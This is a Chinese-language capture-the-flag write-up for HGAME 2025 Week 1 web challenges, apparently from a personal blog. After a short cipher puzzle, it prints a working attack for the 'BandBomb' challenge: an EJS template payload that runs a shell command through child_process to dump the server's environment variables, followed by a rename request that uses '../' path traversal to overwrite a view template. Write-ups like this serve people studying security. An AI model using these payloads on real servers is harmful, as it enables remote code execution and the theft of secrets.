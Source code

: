 ```yaml
---
title: HGAME 2025 WEEK1 WP
date: 2025-02-13 16:45:00 +0800
categories: [比赛WP, ]
tags: [CTF]
---
```


## Web

### Level 24 Pacman

查看index.js，发现两个base64加密的内容

<img src="C:\Users\user\AppData\Roaming\Typora\typora-user-images\image-20250203221916730.png" alt="image-20250203221916730" style="zoom: 67%;" />

![image-20250203221848649](C:\Users\user\AppData\Roaming\Typora\typora-user-images\image-20250203221848649.png)

解密后分别为`haeu4epca_4trgm{_r_amnmse}`和`haeu4epca_4trgm{_r_amnmse}`，猜测为栅栏密码，解密后得到flag



### Level 47 BandBomb

1. **上传恶意模板文件**
   上传 `hack.txt`，内容为：

   ```ejs
   do it
   <% var name=global.process.mainModule.require('child_process').exec('env > public/output') %>
   <%= name %>
   ```

   - **关键点**：
     - `<% ... %>` 是EJS的代码执行标签，服务器渲染模板时会执行其中的代码。
     - `exec('env > public/output')` 将环境变量写入到 `public/output` 文件中，此文件可通过静态路由 `/static/output` 访问。

2. **覆盖模板文件**
   发送重命名请求：

   ```http
   POST /rename
   Content-Type: application/json
   
   {
     "oldName": "hack.txt",
     "newName": "../views/mortis.ejs"
   }
   ```

   - **漏洞利用**：
     - `newName` 包含 `../` 路径遍历符，将文件移动到 `views` 目录并覆盖 `mortis.ejs` 模板。
     - 由于题目未对路径进行过滤，此操作成功覆盖模板。
